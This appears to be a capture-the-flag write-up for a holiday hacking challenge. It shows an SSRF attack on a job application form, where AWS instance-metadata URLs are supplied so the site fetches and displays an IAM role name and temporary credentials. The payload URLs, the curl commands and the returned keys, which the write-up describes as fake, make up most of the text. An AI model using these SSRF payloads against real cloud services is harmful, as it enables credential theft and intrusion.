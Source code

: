 # Objective 10: Now Hiring!
**Location: https://apply.jackfrosttower.com/**  
**Hints provided by Noxious O. D'or after completion of [IMDS Exploration](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/IMDS%20Exploration.md)**

This objective is about SSRF to IMDS URLs.

The website's application form consumes the user's name, resume (as file upload) and the URL to the public NLBI report.

After the submission, the item specified by the URL is retrieved by the website and then shown on the "submission accepted" screen using the URL https://apply.jackfrosttower.com/images/{username}.jpg

By choosing the right IMDS URLs, the secret access key for the S3 bucket can be retrieved using CURL:

URL 1 (get role name):
```
http://169.254.169.254/latest/meta-data/iam/security-credentials
```
Result:
```
joergen@northpole:~$ curl https://apply.jackfrosttower.com/images/joergen.jpg
jf-deploy-role
```

URL 2 (get security credentials for this role):
```
http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role
```

```
joergen@northpole:~$ curl https://apply.jackfrosttower.com/images/joergen.jpg
```
```json
{
	"Code": "Success",
	"LastUpdated": "2021-05-02T18:50:40Z",
	"Type": "AWS-HMAC",
	"AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
	"SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
	"Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
	"Expiration": "2026-05-02T18:50:40Z"
}
```
So the secret access key for the S3 bucket is **CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX**

**Achievement: SSRF to IMDS to S3 Bucket Access**

### Additional Information

This objective uses the same IMDS dataset as the [IMDS Exploration terminal](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/IMDS%20Exploration.md).
For the terminal it is confirmed to be fake information hosted from a local process. In addition - due to the fact, that the region `np-north-1` is not a valid AWS region, it does not make sense trying to get access to a related S3 bucket.
